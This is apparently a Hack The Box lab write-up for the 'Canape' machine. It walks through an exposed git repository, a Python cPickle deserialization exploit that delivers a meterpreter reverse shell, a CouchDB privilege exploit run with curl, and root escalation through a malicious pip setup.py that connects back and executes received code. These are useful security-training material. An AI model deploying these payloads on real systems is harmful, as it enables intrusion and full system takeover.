

134 - Canape
============

Mandatory nmap scan:
```bash
❯❯❯ sudo nmap -sS -Pn --top-ports 200 10.10.10.70
Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-13 13:14 CEST
Nmap scan report for 10.10.10.70
Host is up (0.063s latency).
Not shown: 199 filtered ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 3.41 seconds
```

In the source of the home page is an interesting comment showin a hidden functionnality and what looks like a commit number:
```html
          <!-- 
          c8a74a098a60aaea1af98945bd707a7eab0ff4b0 - temporarily hide check
          <li class="nav-item">
            <a class="nav-link" href="/check">Check Submission</a>
          </li>
          -->
```

And checking the URL <http://10.10.10.70/.git/config> returns the git configuration file:
```
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = http://git.canape.htb/simpsons.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "master"]
	remote = origin
	merge = refs/heads/master
```

Adding a line to the hosts file for the hostname `git.canape.htb` allows to download the git repo:
```bash
❯❯❯ git clone http://git.canape.htb/simpsons.git                                                     ⏎
Cloning into 'simpsons'...
remote: Counting objects: 49, done.
remote: Compressing objects: 100% (47/47), done.
remote: Total 49 (delta 18), reused 0 (delta 0)
Unpacking objects: 100% (49/49), done.
```

In the code we find the issue, there is this `/check` route that will unpickle user controlled data. The data is stored in the `/submit` route and has to satisfy some conditions. Here is the relevant code:
```python
@app.route("/submit", methods=["GET", "POST"])
def submit():
    error = None
    success = None

    if request.method == "POST":
        try:
            char = request.form["character"]
            quote = request.form["quote"]
            if not char or not quote:
                error = True
            elif not any(c.lower() in char.lower() for c in WHITELIST):
                error = True
            else:
                # TODO - Pickle into dictionary instead, `check` is ready
                p_id = md5(char + quote).hexdigest()
                outfile = open("/tmp/" + p_id + ".p", "wb")
                outfile.write(char + quote)
                outfile.close()
                success = True
        except Exception as ex:
            error = True

    return render_template("submit.html", error=error, success=success)

@app.route("/check", methods=["POST"])
def check():
    path = "/tmp/" + request.form["id"] + ".p"
    data = open(path, "rb").read()

    if "p1" in data:
        item = cPickle.loads(data)
    else:
        item = data

    return "Still reviewing: " + item
```

So the submitted quote must:
- include one of the whitelisted character in the character parameter
- be a valide `cPickle` object

Knowing this we can craft valid payloads. We must be careful and take care of:
- new lines encoding (Linux box, only `%0a`)
- return type of our payload (must be a string because it is concatenated with a string)
- any python module should be first imported in the payload if not already imported by the application (especially `os`), see <https://sensepost.com/blog/2010/playing-with-python-pickle-%233/>

My first valid payload is crafted to ping my host IP. The python code that generates the payload is:
```python
#!/usr/bin/env python

import os
import cPickle
from hashlib import md5
import urllib

# Exploit that we want the target to unpickle
class Exploit(object):
    def __reduce__(self):
        return (eval,('str(eval("__import__(\'os\').system(\'echo moe;ping -c 7 10.10.14.222\')"))',))

shellcode = cPickle.dumps(Exploit())
print(shellcode)

print(urllib.quote_plus(shellcode))
print(md5(shellcode).hexdigest())
```

Once run, this outputs the following:
```bash
❯❯❯ python pest.py
c__builtin__
eval
p1
(S'str(eval("__import__(\'os\').system(\'echo moe;ping -c 7 10.10.14.222\')"))'
p2
tp3
Rp4
.
c__builtin__%0Aeval%0Ap1%0A%28S%27str%28eval%28%22__import__%28%5C%27os%5C%27%29.system%28%5C%27echo+moe%3Bping+-c+7+10.10.14.222%5C%27%29%22%29%29%27%0Ap2%0Atp3%0ARp4%0A.
3192f06a14be6d0f72a0290b7e664ec5
```

We can then send a first request to the `/submit` to store the payload on disk:
```
POST /submit HTTP/1.1
Host: 10.10.10.70
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.70/submit
Color: cyan
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 188

character=c__builtin__%0Aeval%0Ap1%0A%28S%27str%28eval%28%22__import__%28%5C%27os%5C%27%29.system%28%5C%27echo+moe%3Bping+-c+7+10.10.14.222%5C%27%29%22%29%29%27%0Ap2%0Atp3%0ARp4%0A&quote=.
```

This is accepted by the server. Then we run the second request to retrieve the quote status and execute the payload:
```
POST /check HTTP/1.1
Host: 10.10.10.70
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Color: cyan
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 35

id=3192f06a14be6d0f72a0290b7e664ec5
```

This will only return a 0 (the return code of our system call). However, on the local host we can see the pings from the server:
```bash
❯❯❯ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
06:36:05.527801 IP git.canape.htb > kali: ICMP echo request, id 1200, seq 1, length 64
06:36:05.527905 IP kali > git.canape.htb: ICMP echo reply, id 1200, seq 1, length 64
06:36:06.604011 IP git.canape.htb > kali: ICMP echo request, id 1200, seq 2, length 64
06:36:06.604115 IP kali > git.canape.htb: ICMP echo reply, id 1200, seq 2, length 64
06:36:07.453618 IP git.canape.htb > kali: ICMP echo request, id 1200, seq 3, length 64
06:36:07.453727 IP kali > git.canape.htb: ICMP echo reply, id 1200, seq 3, length 64
06:36:08.662813 IP git.canape.htb > kali: ICMP echo request, id 1200, seq 4, length 64
06:36:08.662884 IP kali > git.canape.htb: ICMP echo reply, id 1200, seq 4, length 64
06:36:09.466449 IP git.canape.htb > kali: ICMP echo request, id 1200, seq 5, length 64
06:36:09.466551 IP kali > git.canape.htb: ICMP echo reply, id 1200, seq 5, length 64
06:36:10.516023 IP git.canape.htb > kali: ICMP echo request, id 1200, seq 6, length 64
06:36:10.516130 IP kali > git.canape.htb: ICMP echo reply, id 1200, seq 6, length 64
06:36:11.478756 IP git.canape.htb > kali: ICMP echo request, id 1200, seq 7, length 64
06:36:11.478879 IP kali > git.canape.htb: ICMP echo reply, id 1200, seq 7, length 64
^[[A^[[B^C
14 packets captured
14 packets received by filter
0 packets dropped by kernel
```

From here, we can get a meterpreter shell, first generate the python payload with:
```
$ msfvenom -p python/meterpreter/reverse_tcp LHOST=10.10.15.78 LPORT=8123 -f raw > met.py
```

Then include it with some modification in the previous python script:
```python
!/usr/bin/env python

import os
import cPickle
from hashlib import md5
import urllib

# Exploit that we want the target to unpickle
class Exploit(object):
    def __reduce__(self):
        pre = 'str(eval(compile("print(\'moe\');'
        post = '","foo","exec")))'
        payload = 'import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,\'UTF-8\')}[sys.version_info[0]](\'aW1wb3J0IHNvY2tldCxzdHJ1Y3QsdGltZQpmb3IgeCBpbiByYW5nZSgxMCk6Cgl0cnk6CgkJcz1zb2NrZXQuc29ja2V0KDIsc29ja2V0LlNPQ0tfU1RSRUFNKQoJCXMuY29ubmVjdCgoJzEwLjEwLjE1Ljc4Jyw4MTIzKSkKCQlicmVhawoJZXhjZXB0OgoJCXRpbWUuc2xlZXAoNSkKbD1zdHJ1Y3QudW5wYWNrKCc+SScscy5yZWN2KDQpKVswXQpkPXMucmVjdihsKQp3aGlsZSBsZW4oZCk8bDoKCWQrPXMucmVjdihsLWxlbihkKSkKZXhlYyhkLHsncyc6c30pCg==\')))'
        return (eval,(pre + payload + post,))


shellcode = cPickle.dumps(Exploit())
print(shellcode)
#cPickle.loads(shellcode)

print(urllib.quote_plus(shellcode))
print(md5(shellcode).hexdigest())
```

Set up metasploit:
```
use /exploit/multi/handler
set payload python/meterpreter/reverse_tcp
set LHOST 10.10.15.78
set LPORT 8123
set ExitOnSession false
exploit -j -z
```

And send the two requests (submit and check) to the website to get a reverse meterpreter shell.

Enumerating the system finds a hash in a `.htpasswd` file but no luck cracking it:
```
/var/www/git/.htpasswd
homer:Git Access:7818cef8b9dc50f4a70fd299314cb9eb
```

However, there is the couchdb service running. To explore this, we can forward a port on the attacker machine to the target as follows in meterpreter:
```
meterpreter > portfwd add -l 12345 -p 5984 -r 127.0.0.1
[*] Local TCP relay created: :12345 <-> 127.0.0.1:5984
```

And it seems that the version is 2.0.0 so we should be able to exploit the CVE-2017-12635 to get an admin user. Let's try as explained in <https://justi.cz/security/2017/11/14/couchdb-rce-npm.html> and use curl:
```bash
❯❯❯ curl -X PUT 'http://localhost:12345/_users/org.couchdb.user:rireoubli' --data-binary '{"type": "user","name": "rireoubli","roles": ["_admin"],"roles": [],"password": "password"}'
{"ok":true,"id":"org.couchdb.user:rireoubli","rev":"1-b365367021142351973cda6f705b5305"}
```

Seems to be working, we can log in and browse the database. Furthermore, there is a DB called `passwords` that gives the password of the `homer` account:


So we can now su to this user with the password `0B4jyA0xtytZi7esBNGp` and from here we get the flag:
```bash
www-data@canape:/$ su homer
Password: 0B4jyA0xtytZi7esBNGp

bash: cannot set terminal process group (1212): Inappropriate ioctl for device
bash: no job control in this shell
homer@canape:/$ cat /home/homer/user.txt
bce918696f293e62b2321703bb27288d
```

## Privilege escalation
Running `sudo -l` shows that we can install stuff with pip as sudo:
```bash
homer@canape:~$ sudo -l
sudo -l
[sudo] password for homer: 0B4jyA0xtytZi7esBNGp

Matching Defaults entries for homer on canape:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User homer may run the following commands on canape:
    (root) /usr/bin/pip install *
```

From here, some research on the web lead to useful pages. A first one that provides an example of malicious python setup file with a reverse meterpreter shell, <https://www.ayrx.me/look-before-you-pip>. And some stackoverflow post to create a simple module that can be installed using pip, <https://stackoverflow.com/questions/15746675/how-to-write-a-python-module-package>.

The final setup is as follows, we customize the `setup.py` file as follows:
```python
import socket
import struct

from setuptools import setup
from setuptools.command.install import install


class TotallyInnocentClass(install):
    def run(self):
        s = socket.socket(2, 1)
        s.connect(("10.10.15.78", 8123))
        l = struct.unpack(">I", s.recv(4))[0]
        d = s.recv(4096)
        while len(d) != l:
            d += s.recv(4096)

        exec(d, {"s": s})

setup(
    name='escalate',
    version='0.0.1',
    cmdclass={
        "install": TotallyInnocentClass
    }
)
```

Once run this will use the already existing multi handler with the same python payload.

Then we need to package this as follows:
```bash
❯❯❯ python setup.py sdist
running sdist
running egg_info
creating escalate.egg-info
writing escalate.egg-info/PKG-INFO
writing top-level names to escalate.egg-info/top_level.txt
writing dependency_links to escalate.egg-info/dependency_links.txt
writing manifest file 'escalate.egg-info/SOURCES.txt'
reading manifest file 'escalate.egg-info/SOURCES.txt'
writing manifest file 'escalate.egg-info/SOURCES.txt'
warning: sdist: standard file not found: should have one of README, README.rst, README.txt, README.md

running check
warning: check: missing required meta-data: url

warning: check: missing meta-data: either (author and author_email) or (maintainer and maintainer_email) must be supplied

creating escalate-0.0.1
creating escalate-0.0.1/escalate.egg-info
copying files to escalate-0.0.1...
copying setup.py -> escalate-0.0.1
copying escalate.egg-info/PKG-INFO -> escalate-0.0.1/escalate.egg-info
copying escalate.egg-info/SOURCES.txt -> escalate-0.0.1/escalate.egg-info
copying escalate.egg-info/dependency_links.txt -> escalate-0.0.1/escalate.egg-info
copying escalate.egg-info/top_level.txt -> escalate-0.0.1/escalate.egg-info
Writing escalate-0.0.1/setup.cfg
creating dist
Creating tar archive
removing 'escalate-0.0.1' (and everything under it)
```

Finally, we move the `dist/escalate-0.0.1.tar.gz` file that was generated to a new folder named `escalate` and run a simple python HTTP server:
```bash
❯❯❯ sudo python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.70 - - [18/Jul/2018 09:10:02] "GET /escalate/ HTTP/1.1" 200 -
10.10.10.70 - - [18/Jul/2018 09:10:02] "GET /escalate/escalate-0.0.1.tar.gz HTTP/1.1" 200 -
```

We can already see the HTTP requests from the box. To generate them, from the homer shell, run:
```bash
homer@canape:~$ sudo pip install --index-url http://10.10.15.78/ escalate
sudo pip install --index-url http://10.10.15.78/ escalate
[sudo] password for homer: 0B4jyA0xtytZi7esBNGp

The directory '/home/homer/.cache/pip/http' or its parent directory is not owned by the current user and the cache has been disabled. Please check the permissions and owner of that directory. If executing pip with sudo, you may want sudo's -H flag.
The directory '/home/homer/.cache/pip' or its parent directory is not owned by the current user and caching wheels has been disabled. check the permissions and owner of that directory. If executing pip with sudo, you may want sudo's -H flag.
Collecting escalate
  The repository located at 10.10.15.78 is not a trusted or secure host and is being ignored. If this repository is available via HTTPS it is recommended to use HTTPS instead, otherwise you may silence this warning and allow it anyways with '--trusted-host 10.10.15.78'.
  Could not find a version that satisfies the requirement escalate (from versions: )
No matching distribution found for escalate
homer@canape:~$ sudo pip install --index-url http://10.10.15.78/ --trusted-host 10.10.15.78 escalate
<stall --index-url http://10.10.15.78/ --trusted-host 10.10.15.78 escalate   
The directory '/home/homer/.cache/pip/http' or its parent directory is not owned by the current user and the cache has been disabled. Please check the permissions and owner of that directory. If executing pip with sudo, you may want sudo's -H flag.
The directory '/home/homer/.cache/pip' or its parent directory is not owned by the current user and caching wheels has been disabled. check the permissions and owner of that directory. If executing pip with sudo, you may want sudo's -H flag.
Collecting escalate
  Downloading http://10.10.15.78/escalate/escalate-0.0.1.tar.gz
Installing collected packages: escalate
  Running setup.py install for escalate ... 
```

And directly after this, we see that the payload was successful:
```
[*] Sending stage (53508 bytes) to 10.10.10.70
[*] Meterpreter session 7 opened (10.10.15.78:8123 -> 10.10.10.70:52184) at 2018-07-18 09:10:03 +0200
```

Finally we we interact with this new session to get the flag:
```
msf exploit(multi/handler) > sessions -i 7
[*] Starting interaction with 7...

meterpreter > shell
Process 2157 created.
Channel 1 created.
/bin/sh: 0: can't access tty; job control turned off
# cat /root/root.txt
928c3df1a12d7f67d2e8c2937120976d
```
